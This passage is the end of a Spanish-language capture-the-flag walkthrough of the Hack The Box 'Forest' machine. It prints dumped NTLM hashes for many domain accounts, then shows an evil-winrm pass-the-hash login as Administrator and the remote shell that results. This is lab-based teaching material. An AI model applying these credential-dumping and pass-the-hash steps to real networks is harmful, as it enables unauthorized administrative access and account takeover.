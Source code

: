 ```bash
htb.local\SM_c75ee099d0a64c91b:1131:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\SM_1ffab36a2f5f479cb:1132:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::                                                                                     
htb.local\HealthMailboxc3d7722:1134:aad3b435b51404eeaad3b435b51404ee:4761b9904a3d88c9c9341ed081b4ec6f:::                                                                                     
htb.local\HealthMailboxfc9daad:1135:aad3b435b51404eeaad3b435b51404ee:5e89fd2c745d7de396a0152f0e130f44:::                                                                                     
htb.local\HealthMailboxc0a90c9:1136:aad3b435b51404eeaad3b435b51404ee:3b4ca7bcda9485fa39616888b9d43f05:::                                                                                     
htb.local\HealthMailbox670628e:1137:aad3b435b51404eeaad3b435b51404ee:e364467872c4b4d1aad555a9e62bc88a:::                                                                                     
htb.local\HealthMailbox968e74d:1138:aad3b435b51404eeaad3b435b51404ee:ca4f125b226a0adb0a4b1b39b7cd63a9:::                                                                                     
htb.local\HealthMailbox6ded678:1139:aad3b435b51404eeaad3b435b51404ee:c5b934f77c3424195ed0adfaae47f555:::                                                                                     
htb.local\HealthMailbox83d6781:1140:aad3b435b51404eeaad3b435b51404ee:9e8b2242038d28f141cc47ef932ccdf5:::                                                                                     
htb.local\HealthMailboxfd87238:1141:aad3b435b51404eeaad3b435b51404ee:f2fa616eae0d0546fc43b768f7c9eeff:::                                                                                     
htb.local\HealthMailboxb01ac64:1142:aad3b435b51404eeaad3b435b51404ee:0d17cfde47abc8cc3c58dc2154657203:::                                                                                     
htb.local\HealthMailbox7108a4e:1143:aad3b435b51404eeaad3b435b51404ee:d7baeec71c5108ff181eb9ba9b60c355:::                                                                                     
htb.local\HealthMailbox0659cc1:1144:aad3b435b51404eeaad3b435b51404ee:900a4884e1ed00dd6e36872859c03536:::                                                                                     
htb.local\sebastien:1145:aad3b435b51404eeaad3b435b51404ee:96246d980e3a8ceacbf9069173fa06fc:::                                                                                                
htb.local\lucinda:1146:aad3b435b51404eeaad3b435b51404ee:4c2af4b2cd8a15b1ebd0ef6c58b879c3:::                                                                                                  
htb.local\svc-alfresco:1147:aad3b435b51404eeaad3b435b51404ee:9248997e4ef68ca2bb47ae4e6f128668:::                                                                                             
htb.local\andy:1150:aad3b435b51404eeaad3b435b51404ee:29dfccaf39618ff101de5165b19d524b:::                                                                                                     
htb.local\mark:1151:aad3b435b51404eeaad3b435b51404ee:9e63ebcb217bf3c6b27056fdcb6150f7:::                                                                                                     
htb.local\santi:1152:aad3b435b51404eeaad3b435b51404ee:483d4c70248510d8e0acb6066cd89072:::                                                                                                    
abc:9601:aad3b435b51404eeaad3b435b51404ee:44f077e27f6fef69e7bd834c7242b040:::                                                                                                                
bly:9602:aad3b435b51404eeaad3b435b51404ee:41a61dea6443de256d2c6e6b66bdbb1a:::                                                                                                                
FOREST$:1000:aad3b435b51404eeaad3b435b51404ee:a6388c06ba76bf051b66a3b052fb1d8c:::                                                                                                            
EXCH01$:1103:aad3b435b51404eeaad3b435b51404ee:050105bb043f5b8ffc3a9fa99b5ef7c1:::   
```

Usaremos Evil-Winrm para hacer PassTheHash y conectarnos.

```powershell
❯ evil-winrm -i 10.10.10.161 -u 'Administrator' -H '32693b11e6aa90eb43d32c72a07ceea6' 
Evil-WinRM shell v2.4
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

Ya hemos pwneado la máquina, espero que te sirva!




